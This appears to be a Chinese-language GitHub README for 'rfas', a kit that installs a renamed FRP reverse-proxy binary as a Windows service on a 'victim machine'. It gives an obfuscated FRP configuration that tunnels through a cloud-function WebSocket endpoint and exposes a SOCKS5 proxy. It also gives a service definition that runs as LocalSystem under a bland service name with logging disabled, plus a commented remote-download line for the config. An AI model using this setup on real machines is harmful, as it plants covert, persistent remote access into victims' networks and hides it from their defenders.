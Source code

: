 # rfas
让FRP以Windows服务运行

"FRP配置文件采用云函数+TLS加密"

将压缩包上传到受害者机器，解压，运行
zz是frp的配置文件
```
[common]
n2PvV = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
05ZBz = 443 <wss服务端口>
tx06L = qax!@#123 <连接服务器的token>
9XiEV = wss <WebSocket协议>
zSYqj = true
fV0yw = service-xxxxxx.xxxx.bj.apigw.tencentcs.com <wss服务地址>
LYn04 = false <是否自删除配置文件>

[plugin_socks55]
N4DCJ = tcp
aQmFn = 8999 <remote_port>
oAZdB = true
aYpEk = true
umsUv = socks5 <协议>
```
run.xml
```
<service>
    <id>AppMgemt</id>
    <name>AppMgemt</name>
    <description></description>
    <!--
    <download from="http://x.x.x.x/<frp配置文件>" to="%BASE%\zz" />
    !-->
    <executable>"%BASE%\f3p.exe"</executable>
    <arguments></arguments>
    <serviceaccount>
      <username>LocalSystem</username>
     <!--
       <username>NT AUTHORITY\SYSTEM</username>
     !-->
    </serviceaccount>
    <log mode="none"/>
</service>
```
run.exe install & run.exe start

<img width="864" alt="image" src="https://user-images.githubusercontent.com/26845888/153735306-d161b493-caa0-4a43-8422-947ffbdea34e.png">
